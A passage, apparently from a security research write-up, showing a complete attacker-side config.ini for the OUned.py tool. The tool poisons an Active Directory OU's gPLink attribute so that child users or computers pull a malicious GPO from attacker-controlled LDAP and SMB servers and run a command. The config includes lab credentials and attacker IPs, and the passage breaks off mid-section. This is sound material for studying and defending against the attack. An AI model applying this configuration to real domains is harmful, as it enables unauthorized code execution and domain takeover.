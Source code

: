 With this information, the following **OUned.py** configuration file can be provided. Aside from the target OU and the target object type, the main difference resides in the SMB section, which will indicate using the **forwarded** mode and provide required information related to SMB dummy domain controller.

```ini
# On attacker machine
$ cat config.ini
[GENERAL]
# The target domain name
domain=corp.com

# The target Organizational Unit name
ou=_ADMINS

# The username and password of the user having write permissions on the gPLink attribute of the target OU
username=naugustine
password=Password1

# The IP address of the attacker machine on the internal network
attacker_ip=192.168.123.16

# The command that should be executed by child objects
command=whoami > C:\output.txt

# The kind of objects targeted ("computer" or "user")
target_type=user


[LDAP]
# The IP address of the dummy domain controller that will act as an LDAP server
ldap_ip=192.168.125.245

# Optional (used for sanity checks) - the hostname of the dummy domain controller
ldap_hostname=WIN-TTEBC5VH747

# The username and password of a domain administrator on the dummy domain controller 
ldap_username=qroland
ldap_password=Password1!

# The ID of the GPO (can be empty, only needs to exist) on the dummy domain controller
gpo_id=7B7D6B23-26F8-4E4B-AF23-F9B9005167F6

# The machine account name and password on the target domain that will be used to fake the LDAP server delivering the GPC
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
ldap_machine_name=OUNED$
ldap_machine_password=0V6rOKK2MFP1%% f%%nP7:XGWdH(_2Wqh,=`_,d)%%^0dsjD%%xEga`%%w!GhUMC$fa>W\6nRwXnGZuLM?86a+0idQ^Y;TRqGV?]>Lma.+&C,SA*<.Uo<mia7 F=p

[SMB]
# The SMB mode can be embedded or forwarded depending on the kind of object targeted
smb_mode=forwarded

# The name of the SMB share. Can be anything for embedded mode, should match an existing share on SMB dummy domain controller for forwarded mode
share_name=synacktiv

# The IP address of the dummy domain controller that will act as an SMB server
smb_ip=192.168.126.206

# The username and password of a user having write access to the share on the SMB dummy domain controller
```